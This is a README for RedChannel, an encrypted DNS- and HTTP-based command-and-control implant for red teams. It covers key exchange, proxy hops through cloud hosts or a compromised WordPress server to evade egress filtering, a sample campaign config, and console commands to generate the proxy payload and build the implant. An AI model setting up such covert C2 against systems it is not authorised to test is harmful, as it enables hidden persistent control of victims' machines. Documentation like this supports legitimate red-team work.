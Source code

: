 # RedChannel C2

RedChannel is a simple end-to-end encrypted implant for red teams, written in JavaScript (server) and Go (agent).

The primary means of communication between agents and their C2 is DNS, but proxying through an HTTP endpoint is also possible. RedChannel uses AAAA records for data transmission and does not rely on TXT records.

## Key Exchange and Session Encryption

Before any data or commands are received, C2 must initiate a key exchange with new agents.

* C2 generates an EC keypair and forwards it's public key to the Agent
* Agent generates its own EC keypair and forwards it to the C2
* Using ECDH, both C2 and Agent compute the same shared secret
* The shared secret is combined with the campaign password to derive an AES key
* All subsequent communication will be encrypted with the derived AES key.
    * A per-encryption block-sized IV is generated and prepended to the encrypted buffer

The C2 can at any point reinitiate the key exchange, invalidating keys used to encrypt and decrypt past traffic and data.

## Proxying Traffic Through HTTP

RedChannel can switch its communication method from DNS to HTTP by using proxy somewhere on the Internet. The benefit of this is primarily speed. DNS communication is very slow, especially if the communication interval is high. Since the proxy payload can be hosted on any third-party server and it is polled by both the implant and the C2, we can effectively tunnel C2 requests through Tor or a VPN, hiding the red team infrastructure. 

The key exchange and session encryption still apply, but instead of issuing DNS queries, agents will instead upload these encrypted blobs to the defined proxy endpoint. The C2 will query this endpoint periodically for data from agents and process it accordingly. 

### Proxy communication via cloud hop
The proxy payload can be uploaded to something like Google Cloud, Amazon or Azure and used as a hop for communication. This eliminates the need to find good domains and manage certificates and it also masks your primary C2 infrastructure. 
```
(target [agent]) ---> (cloud: [https://url/proxy.php]) <--- (red team: [c2])
```
### Proxy communication via target environment hop

Another option is to leverage an internally compromised web server which is exposed to the Internet (eg: some WordPress blog). This would allow fast communication with the C2 via HTTP while also bypassing any egress proxy filtering on the agent host.
```
(target [agent] ---> [https://url/proxy.php]) <--- (red team: [c2])
```

## Configuration

A sample configuration file is available in `./conf/redchannel.conf.sample`. Use this as a template to create campaign configs. These must be properly formatted JSON files.

The master password is set either via the `--password` command-line switch or using the environment variable `RC_PASSWORD`. This value is required.

The agent source code must also be available in the `./agent/` subfolder: ```git submodule update --recurse```

RedChannel will use the `./agent/config/config.go.sample` as a template to build the agent using C2 configuration data (password, c2 domain, etc).

## Running

Command-line switches are available to overwrite configuration values. 

```c
$ git clone --recurse-submodules https://github.com/slackr/redchannel-c2
$ cd redchannel-c2
$ vim ./conf/redchannel.conf
$ node app.js --help
...
```

### Sample Campaign

*Target:* Contoso
*Red Team C2 domain:* redteam.int
*Proxy URL:* https://uber-red-team.azurewebsites.net/proxy.php

* Create `NS` record for `uber.redteam.int` pointing to `ns1.redteam.int`
* Create `A` record for `ns1.redteam.int` pointing to the C2 external `ip` or `socat` forwarder

Create a `./config/campaigns/contoso.conf` (see `conf/redchannel.conf.sample`)
```json
{
    "c2": {
        "domain": "uber.redteam.int",
        "dns_ip": "0.0.0.0",
        "dns_port": 53,
        "web_ip": "127.0.0.1",
        "web_port": 4321,
        "binary_route": "/setup.exe",
        "web_url": "http://uber.redteam.int"
    },
    "proxy": {
        "enabled": false,
        "key": "contoso_proxy_key",
        "interval": 2000,
        "url": "https://uber-red-team.azurewebsites.net/proxy.php"
    },
    "static_dns": {
        "uber.redteam.int": "172.16.1.1"
    }
    ...
}
```

Launch the C2:
```RC_PASSWORD=supersecret node app.js --config ./config/campaigns/contoso.conf```

Generate proxy payload and enable proxy communicaton:

```c
> use proxy
proxy> generate
// proxy payload is displayed, to be uploaded to the proxy server (https://uber-red-team.azurewebsites.net/proxy.php)
proxy> set enabled 1
```

Build the implant binary:

```c
> use implant
implant> set os linux
implant> set arch amd64
implant> set interval 2000
implant> set resolver 1.1.1.1:53
implant> build
* building agent for os: linux, arch: amd64, binary will be available here: [path] and [web_url/binary_route]
// pull the current build log with 'log'
implant> log
// shows the active build log, lots of output...
```
